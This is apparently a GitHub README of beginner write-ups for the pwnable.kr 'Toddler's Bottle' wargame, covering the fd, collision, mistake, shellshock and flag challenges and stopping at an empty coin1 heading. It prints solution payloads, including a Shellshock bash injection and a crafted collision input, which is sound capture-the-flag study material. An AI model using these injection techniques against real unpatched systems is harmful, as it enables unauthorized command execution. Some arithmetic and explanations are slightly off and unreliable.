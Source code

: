 # pwnable.kr
Just some of my thought process going through the Toddler's Bottle beginner levels.

# 1: [fd]

Looking at the program, I see the program is looking for an input of LETMEWIN to get the flag. However, you can't just enter it as an argument.
The clue asks you what a file descriptor is. After googling, I learned that there are three file descriptors. Standard input is accessed at integer value 0,
so I looked at the line : <br>
````c
int fd = atoi( argv[1] ) - 0x1234; <br>
````
took 0x1234, converted it to decimal, and entered in 4660 as the file argument. This allowed me to write to STDIN, and I entered LETMEWIN.
the flag was returned.


# 2: collision

Looking at the code for col.c, we see a few restrictions for our argument. The passcode length must be length 20.
The password you enter is taken into chunks of four and totalled. Therefore, we need 5 integers whose total should be equal to 0x21DD09EC. 

```c
col@ubuntu:~$ python
Python 2.7.12 (default, Jul  1 2016, 15:12:24)
[GCC 5.4.0 20160609] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> 0x21DD09EC
568134124
>>>
```
Next, I converted 0x21DD09EC into decimal, which is: 568134124. We can see by looking at it that 568134124 is not cleanly divisible by 5.
I plugged it into a calculator and got 113626828.8, which is 113626828 and 4/5. This means that if we round off 113626828.8 to 113626828 and subtract 4, we 
have 113626824 * 4 + 113626828 = 568134124. So we have to enter those in hex. I used python:

```c
./col `python -c 'print "\xc8\xce\xc5\x06"*4 + "\xcc\xce\xc5\x06"'`
```
The flag was returned!


# 3: mistake

This one used some knowledge from the first one I did, fd. 

```c
mistake@ubuntu:~$ cat mistake.c
#include <stdio.h>
#include <fcntl.h>

#define PW_LEN 10
#define XORKEY 1

void xor(char* s, int len){
        int i;
        for(i=0; i<len; i++){
                s[i] ^= XORKEY;
        }
}

int main(int argc, char* argv[]){

        int fd;
        if(fd=open("/home/mistake/password",O_RDONLY,0400) < 0){
                printf("can't open password %d\n", fd);
                return 0;
        }

        printf("do not bruteforce...\n");
        sleep(time(0)%20);

        char pw_buf[PW_LEN+1];
        int len;
        if(!(len=read(fd,pw_buf,PW_LEN) > 0)){
                printf("read error\n");
                close(fd);
                return 0;
        }

        char pw_buf2[PW_LEN+1];
        printf("input password : ");
        scanf("%10s", pw_buf2);

        // xor your input
        xor(pw_buf2, 10);

        if(!strncmp(pw_buf, pw_buf2, PW_LEN)){
                printf("Password OK\n");
                system("/bin/cat flag\n");
        }
        else{
                printf("Wrong Password\n");
        }

        close(fd);
        return 0;
}
```
Looking at the code we can see a program that starts up, opens the password from the password file, tells you "do not bruteforce...", waits, then asks for a password.
It takes your password and flips the last bit of every byte. If your flipped password matches the password file, cat the flag.
The hint for the problem says "operator priority", so I started looking for errors in execution. You don't have to look far, the
error occurs at the beginning with the file descriptor. 
```c
        if(fd=open("/home/mistake/password",O_RDONLY,0400) < 0){
                printf("can't open password %d\n", fd);
                return 0;
        }
```
Here we can see that the fd is being set to the outcome of open(...) < 0, instead of the intended setting of fd to the comparison of open(...) and 0.<br>
This is always going to be false, because the password file should open correctly. Therefore, fd is always going to be zero, and it will get its value from stdin. This means that later on the program will compare the flipped input to our stdin. All we need to do is find two 10-digit values that equal each other when one has the last bit of every byte flipped. 0000000000 and 1111111111 work just fine, since we flip 0000 to 0001.<br>
This returns the flag!


# 4: shellshock

This one actually took me a little while to get the formatting correct, but the basic idea is to use the shellshock exploit. The shellshock exploit allows an attacker to inject code into a bash script. Opening up the c++ file shows a small program:
```c
#include <stdio.h>
int main(){
        setresuid(getegid(), getegid(), getegid());
        setresgid(getegid(), getegid(), getegid());
        system("/home/shellshock/bash -c 'echo shock_me'");
        return 0;
}
```
All it does is tell the user to "shock_me". Googling around let me to this: http://resources.infosecinstitute.com/practical-shellshock-exploitation-part-1/, which eventually led to the command: 
```c
env x='() { :;}; /bin/cat ~/flag' ~/shellshock
```
This command adds on extra code to the shellshock file, allowing us to execute our code inside the program that has higher privileges. Running the command gives us the flag!.


# 5: flag
I started this one off by downloading the file and making it executable. Running it gave me this:
```c
david@david-VirtualBox:~/Documents/pwnable5$ ./flag
I will malloc() and strcpy the flag there. take it.
```
Cryptic. The next thing I did was open the file in vi. The file contains a ton of gibberish, so I checked the strings with
```c
strings flag > hello
```
Looking through the file we see a bunch of random text with some broken up lines. One thing I noticed is the line "UPX!" appearing once at the very top of the page, and twice at the very bottom of the page. Googling this line brought me to here: https://en.wikipedia.org/wiki/UPX. <br><br>
As it turns out, UPX is a packaging tool for executables. Let's download it and see what we can do.
```c
david@david-VirtualBox:~/Documents/pwnable5$ upx -d flag
                       Ultimate Packer for eXecutables
                          Copyright (C) 1996 - 2013
UPX 3.91        Markus Oberhumer, Laszlo Molnar & John Reiser   Sep 30th 2013

        File size         Ratio      Format      Name
   --------------------   ------   -----------   -----------
    887219 <-    335288   37.79%  linux/ElfAMD   flag

Unpacked 1 file.
david@david-VirtualBox:~/Documents/pwnable5$ ls
flag  hello
```

So we still have the same flag file. Running it produced the same output message Next, I opened it up. Immediately, the file looks different. I scrolled around for a while before deciding to look for the output message. Using vim to search for malloc brought me to next to a message: <br>UPX...? sounds like a delivery service :)<br>
Which turned out to be the flag!


# 6: coin1

